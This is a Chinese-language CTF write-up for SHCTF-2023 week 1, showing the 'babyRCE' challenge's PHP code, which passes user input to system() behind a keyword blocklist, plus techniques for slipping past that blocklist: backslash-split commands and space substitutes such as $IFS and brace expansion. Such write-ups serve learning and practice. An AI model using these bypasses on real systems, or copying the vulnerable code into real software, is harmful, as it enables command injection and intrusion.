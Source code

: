 ```yaml
---
title: "SHCTF-2023"
date: 2023-10-02
categories: 
  - "ctf"
tags: 
  - "ctf"
---
```


## _前言_

写完week1感觉还是比较简单的，很基础

也是放假在家不想打游戏，拿这个消磨一下时间

## WEEK1

### babyRCE

题目源码

```
<?php

$rce = $_GET['rce'];
if (isset($rce)) {
    if (!preg_match("/cat|more|less|head|tac|tail|nl|od|vi|vim|sort|flag| |\;|[0-9]|\*|\`|\%|\>|\<|\'|\"/i", $rce)) {
        system($rce);
    }else {
            echo "hhhhhhacker!!!"."\n";
    }
} else {
    highlight_file(__FILE__);
}
```

过滤了部分命令和特殊符号

但是没有过滤掉反斜杠（ \\ ），空格我们可以用$IFS来绕过

然后查看文件的命令几乎都被禁了，但是可以通过反斜杠来连接字母形成命令

```
ca\t = cat ， l\s = ls #诸如此类
```

另外空格的一些绕过方式

```
$IFS
$IFS$1
${IFS}
$IFS$9
<               比如cat<a.tct:表示cat a.txt
<>
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20
%09
```
